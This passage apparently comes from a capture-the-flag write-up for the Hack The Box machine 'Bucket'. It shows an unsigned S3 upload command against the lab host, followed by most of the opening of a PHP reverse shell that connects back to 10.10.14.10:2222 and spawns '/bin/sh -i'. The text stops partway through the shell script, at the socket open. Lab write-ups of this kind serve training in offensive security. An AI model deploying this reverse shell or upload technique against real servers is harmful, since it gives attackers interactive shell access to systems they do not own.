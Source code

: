 The right command is this one:

{% highlight sh %}
python2.7 /usr/bin/aws s3api put-object --region us-east-1 --no-sign-request --bucket adserver --key test.txt --endpoint-url http://s3.bucket.htb --body test.txt
{% endhighlight %}

No I can access my file on the server like this:

> http://bucket.htb/text.txt

Great, now all I need is to upload a reverse shell and connect to it. 

My reverse shell looks like this:

{% highlight text %}
<?php
set_time_limit (0);
$VERSION = "1.0";
$ip = '10.10.14.10';  // CHANGE THIS
$port = 2222;       // CHANGE THIS
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = 'uname -a; w; id; /bin/sh -i';
$daemon = 0;
$debug = 0;

//
// Daemonise ourself if possible to avoid zombies later
//

// pcntl_fork is hardly ever available, but will allow us to daemonise
// our php process and avoid zombies.  Worth a try...
if (function_exists('pcntl_fork')) {
	// Fork and have the parent process exit
	$pid = pcntl_fork();
	
	if ($pid == -1) {
		printit("ERROR: Can't fork");
		exit(1);
	}
	
	if ($pid) {
		exit(0);  // Parent exits
	}

	// Make the current process a session leader
	// Will only succeed if we forked
	if (posix_setsid() == -1) {
		printit("Error: Can't setsid()");
		exit(1);
	}

	$daemon = 1;
} else {
	printit("WARNING: Failed to daemonise.  This is quite common and not fatal.");
}

// Change to a safe directory
chdir("/");

// Remove any umask we inherited
umask(0);

//
// Do the reverse shell...
//

// Open reverse connection
$sock = fsockopen($ip, $port, $errno, $errstr, 30);
